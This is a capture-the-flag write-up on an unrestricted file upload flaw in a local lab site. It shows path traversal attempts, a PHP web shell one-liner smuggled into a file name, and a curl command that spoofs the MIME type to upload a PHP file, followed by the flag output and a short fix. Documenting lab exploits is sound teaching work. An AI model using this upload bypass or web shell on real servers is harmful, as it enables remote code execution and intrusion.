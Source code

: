 ## [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

This vulnerability is on the fie upload page: http://localhost:8080/index.php?page=upload.

By tring to upload several files, we can see that we can seemingly only send `.jpg` or `.jpeg` files:

- `test.jpeg` → `/tmp/test.jpeg succesfully uploaded.`
- `test.png` → `Your image was not uploaded.`
- `test.php` → `Your image was not uploaded.`

Path traversal doesn't work here: http://localhost:8080/?page=../../../../../../../tmp and
http://localhost:8080/?page=../../../../../../../tmp/test.jpeg only say `You can DO it !!!  :]`.

We tried to execute code during the filename validation with a file called `'<?php system($_GET[cmd]); ?>.jpeg'`, however it only resutls in `/tmp/.jpeg succesfully uploaded.`.

With `curl`, by copying the request sent from a browser and hardcoding the MIME type to `image/jpeg`, we get the flag:

```console
$ curl -X POST 'http://localhost:8080/index.php?page=upload#' -H 'Content-Type: multipart/form-data' -F 'uploaded=@unrestricted_file_upload/resources/test.php;type=image/jpeg' -F 'MAX_FILE_SIZE=100000' -F 'Upload=Upload' | grep flag
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

The vulnerability can be fixed with stronger server-side validation, checking that the file corresponds to the MIME type.
